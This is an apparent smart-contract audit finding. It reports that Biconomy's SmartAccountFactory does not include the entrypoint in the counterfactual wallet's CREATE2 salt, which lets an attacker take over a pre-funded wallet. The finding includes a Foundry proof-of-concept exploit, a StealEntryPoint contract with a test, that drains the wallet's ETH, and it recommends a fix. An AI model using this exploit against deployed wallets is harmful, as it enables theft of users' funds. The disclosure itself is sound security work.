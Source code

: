 # Attacker can gain control of counterfactual wallet

A counterfactual wallet can be used by pre-generating its address using the `SmartAccountFactory.getAddressForCounterfactualWallet` function. This address can then be securely used (for example, sending funds to this address) knowing in advance that the user will later be able to deploy it at the same address to gain control.

However, an attacker can deploy the counterfactual wallet on behalf of the owner and use an arbitrary entrypoint:

https://github.com/code-423n4/2023-01-biconomy/blob/main/scw-contracts/contracts/smart-contract-wallet/SmartAccountFactory.sol#L33-L45

```solidity
function deployCounterFactualWallet(address _owner, address _entryPoint, address _handler, uint _index) public returns(address proxy){
    bytes32 salt = keccak256(abi.encodePacked(_owner, address(uint160(_index))));
    bytes memory deploymentData = abi.encodePacked(type(Proxy).creationCode, uint(uint160(_defaultImpl)));
    // solhint-disable-next-line no-inline-assembly
    assembly {
        proxy := create2(0x0, add(0x20, deploymentData), mload(deploymentData), salt)
    }
    require(address(proxy) != address(0), "Create2 call failed");
    // EOA + Version tracking
    emit SmartAccountCreated(proxy,_defaultImpl,_owner, VERSION, _index);
    BaseSmartAccount(proxy).init(_owner, _entryPoint, _handler);
    isAccountExist[proxy] = true;
}
```

As the entrypoint address doesn't take any role in the address generation (it isn't part of the salt or the init hash), then the attacker is able to use any arbitrary entrypoint while keeping the address the same as the pre-generated address.

## Impact

After the attacker has deployed the wallet with its own entrypoint, this contract can be used to execute any arbitrary call or code (using `delegatecall`) using the `execFromEntryPoint` function:

https://github.com/code-423n4/2023-01-biconomy/blob/main/scw-contracts/contracts/smart-contract-wallet/SmartAccount.sol#L489-L492

```solidity
function execFromEntryPoint(address dest, uint value, bytes calldata func, Enum.Operation operation, uint256 gasLimit) external onlyEntryPoint returns (bool success) {        
    success = execute(dest, value, func, operation, gasLimit);
    require(success, "Userop Failed");
}
```

This means the attacker has total control over the wallet, it can be used to steal any pre-existing funds in the wallet, change the owner, etc.

## PoC

In the following test, the attacker deploys the counterfactual wallet using the `StealEntryPoint` contract as the entrypoint, which is then used to steal any funds present in the wallet.

```solidity
contract StealEntryPoint {
    function steal(SmartAccount wallet) public {
        uint256 balance = address(wallet).balance;

        wallet.execFromEntryPoint(
            msg.sender, // address dest
            balance, // uint value
            "", // bytes calldata func
            Enum.Operation.Call, // Enum.Operation operation
            gasleft() // uint256 gasLimit
        );
    }
}

contract AuditTest is Test {
    bytes32 internal constant ACCOUNT_TX_TYPEHASH = 0xc2595443c361a1f264c73470b9410fd67ac953ebd1a3ae63a2f514f3f014cf07;

    uint256 bobPrivateKey = 0x123;
    uint256 attackerPrivateKey = 0x456;

    address deployer;
    address bob;
    address attacker;
    address entrypoint;
    address handler;

    SmartAccount public implementation;
    SmartAccountFactory public factory;
    MockToken public token;

    function setUp() public {
        deployer = makeAddr("deployer");
        bob = vm.addr(bobPrivateKey);
        attacker = vm.addr(attackerPrivateKey);
        entrypoint = makeAddr("entrypoint");
        handler = makeAddr("handler");

        vm.label(deployer, "deployer");
        vm.label(bob, "bob");
        vm.label(attacker, "attacker");

        vm.startPrank(deployer);
        implementation = new SmartAccount();
        factory = new SmartAccountFactory(address(implementation));
        token = new MockToken();
        vm.stopPrank();
    }
    
    function test_SmartAccountFactory_StealCounterfactualWallet() public {
        uint256 index = 0;
        address counterfactualWallet = factory.getAddressForCounterfactualWallet(bob, index);
        // Simulate Bob sends 1 ETH to the wallet
        uint256 amount = 1 ether;
        vm.deal(counterfactualWallet, amount);

        // Attacker deploys counterfactual wallet with a custom entrypoint (StealEntryPoint)
        vm.startPrank(attacker);

        StealEntryPoint stealer = new StealEntryPoint();

        address proxy = factory.deployCounterFactualWallet(bob, address(stealer), handler, index);
        SmartAccount wallet = SmartAccount(payable(proxy));

        // address is the same
        assertEq(address(wallet), counterfactualWallet);

        // trigger attack
        stealer.steal(wallet);

        vm.stopPrank();

        // Attacker has stolen the funds
        assertEq(address(wallet).balance, 0);
        assertEq(attacker.balance, amount);
    }
}
```

## Recommendation

This may need further discussion, but an easy fix would be to include the entrypoint as part of the salt. Note that the entrypoint used to generate the address must be kept the same and be used during the deployment of the counterfactual wallet.